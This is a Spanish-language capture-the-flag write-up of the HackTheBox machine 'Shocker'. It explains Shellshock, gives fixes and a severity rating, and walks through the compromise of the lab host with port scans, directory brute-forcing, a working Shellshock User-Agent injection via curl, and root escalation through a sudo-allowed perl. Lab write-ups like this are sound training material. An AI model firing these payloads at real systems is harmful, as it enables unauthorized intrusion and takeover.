 ```yaml
---
layout: single
title:  Shocker
excerpt: "Maquina Shocker de la Plataforma HackTheBox, posee una dificultad facil con una vulnerabilidad bastante conocida que la época en que fue descubierto afectó a millones de servidores. públicos"
date: 2021-07-20
classes: wide
header:
    teaser: /assets/images/que-es-un-socket-y-como-funciona/portada.png
    teaser_home_page: true
categories:
    - WriteUp
tags:
    - Linux
    - HTB
---
```



# Sistema Vulnerable: 10.10.10.56
## Explicacaión de la vulnerabilidad.
Shellshock apareció por primera vez en septiembre de 2014. Hubo informes de ataques a las pocas horas de la divulgación inicial de la vulnerabilidad, y en los días siguientes, hubo millones de ataques y sondeos provenientes de botnets.  
Bash es un shell o intérprete que permite que los comandos se ejecuten en un sistema, generalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix, y como tal, se puede encontrar en Linux, macOS y otros varios sabores de Unix. Esta es la razón por la que Shellshock es tan grave: más de la mitad de los servidores web en Internet ejecutan Unix, sin mencionar una gran cantidad de dispositivos IoT e incluso algunos enrutadores/módems.  


Esencialmente, Shellshock funciona al permitir que un atacante agregue comandos a las definiciones de funciones en los valores de las variables de entorno. Esto se clasificaría como un tipo de ataque de inyección de código, y dado que Bash procesará estos comandos después de la definición de la función, se puede ejecutar casi cualquier código arbitrario.  
Shellshock es en realidad una familia completa de vulnerabilidades que consiste en múltiples vectores de explotación.  

[- https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit](https://securityhacklabs.net/articulo/seguridad-web-explotando-shellshock-en-un-servidor-web-usando-metasploit)
[- https://en.wikipedia.org/wiki/Shellshock_(software_bug)](https://en.wikipedia.org/wiki/Shellshock_(software_bug))


## Vulnerabilidad de escalamiento de privilegios:  
sudo es un programa que permite a los usuarios ejecutar otros programas con privilegios de otros usuarios. De forma predeterminada, ese otro usuario será root.
Un usuario generalmente necesita ingresar su contraseña para usar sudo, y se debe permitir el acceso a través de reglas en el archivo **/etc/sudoers**.   
[https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/](https://www.hackingarticles.in/linux-privilege-escalation-using-exploiting-sudo-rights/)  

------

## Corrección de la vulnerabilidad:
- Actualize bash a su versión mas reciente de su sistema.  
- Configurar de manera eficaz los permisos que se otorgan a los usuarios del sistema.  

## Gravedad :
Crítica

## Prueba de concepto:
[- https://www.exploit-db.com/exploits/34766](https://www.exploit-db.com/exploits/34766)  
```bash
$ curl -H "user-agent: () { :; }; echo;echo; /bin/bash -c 'id'" http://10.10.10.56/cgi-bin/user.sh
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
```

### Enumeración:
Enumeración de puertos TCP
```bash
$ nmap -p- --min-rate 10000 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:29 EDT
Nmap scan report for 10.10.10.56
Host is up (0.025s latency).
Not shown: 65533 closed ports
PORT     STATE SERVICE
80/tcp   open  http
2222/tcp open  EtherNetIP-1

$ nmap -p 80,2222 -sCV -oN targeted 10.10.10.56
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-16 06:30 EDT
Nmap scan report for 10.10.10.56
Host is up (0.018s latency).

PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds

```

## Pasos para explotar el sistema:
### Punto de apoyo:
<p align="center">
<img src="/assets/images/htb/shocker/1.PNG">
</p>

Fuerza bruta al servidor web.  
```bash
$ ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.56/FUZZ -c -t 200
                                                                                                                          
        /'___\  /'___\           /'___\                                                                                   
       /\ \__/ /\ \__/  __  __  /\ \__/                                                                                   
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\                                                                                  
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/                                                      
         \ \_\   \ \_\  \ \____/  \ \_\                                                       
          \/_/    \/_/   \/___/    \/_/                                                                                   

       v1.3.0 Kali Exclusive <3
________________________________________________                              
                                                                                              
 :: Method           : GET                                                                    
 :: URL              : http://10.10.10.56/FUZZ                                                                            
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirb/common.txt                           
 :: Follow redirects : false                                                                  
 :: Calibration      : false                                                                  
 :: Timeout          : 10                                                                                                 
 :: Threads          : 200                                                                    
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405                 
________________________________________________                                    
                                                                                              
                        [Status: 200, Size: 137, Words: 9, Lines: 10]                   
.hta                    [Status: 403, Size: 290, Words: 22, Lines: 12]
.htaccess               [Status: 403, Size: 295, Words: 22, Lines: 12]                                                    
.htpasswd               [Status: 403, Size: 295, Words: 22, Lines: 12]                        
cgi-bin/                [Status: 403, Size: 294, Words: 22, Lines: 12]                        
index.html              [Status: 200, Size: 137, Words: 9, Lines: 10]                                                     
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]                                                    
:: Progress: [4615/4615] :: Job [1/1] :: 597 req/sec :: Duration: [0:00:04] :: Errors: 0 ::   

```

<p align="center">
<img src="/assets/images/htb/shocker/2.PNG">
</p>

Fuerza bruta al sistema web enumerando archivos con extension sh, py,pl,cgi.
```bash
$ gobuster dir -q -e -u http://10.10.10.56/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,py,pl,cgi -t 200 
http://10.10.10.56/cgi-bin/.htpasswd (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.sh (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.py (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htaccess.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.py (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.pl (Status: 403)
http://10.10.10.56/cgi-bin/.htpasswd.cgi (Status: 403)
http://10.10.10.56/cgi-bin/.hta (Status: 403)
http://10.10.10.56/cgi-bin/.hta.sh (Status: 403)
http://10.10.10.56/cgi-bin/.hta.py (Status: 403)
http://10.10.10.56/cgi-bin/.hta.pl (Status: 403)
http://10.10.10.56/cgi-bin/.hta.cgi (Status: 403)
http://10.10.10.56/cgi-bin/user.sh (Status: 200)
```

Visualizando el recurso encontrado.  
```bash
$ curl http://10.10.10.56/cgi-bin/user.sh
Content-Type: text/plain

Just an uptime test script

 18:20:37 up 22 min,  0 users,  load average: 0.00, 0.00, 0.00
 ```

### Obteniendo shell inversa:
<p align="center">
<img src="/assets/images/htb/shocker/3.PNG">
</p>


### Escalada de privilegios:
```bash
$ python3 -c "import pty;pty.spawn('/bin/bash')"
shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/usr/lib/cgi-bin$ sudo perl -e 'exec "/bin/sh";'
sudo perl -e 'exec "/bin/sh";'
# id
id
uid=0(root) gid=0(root) groups=0(root)

```

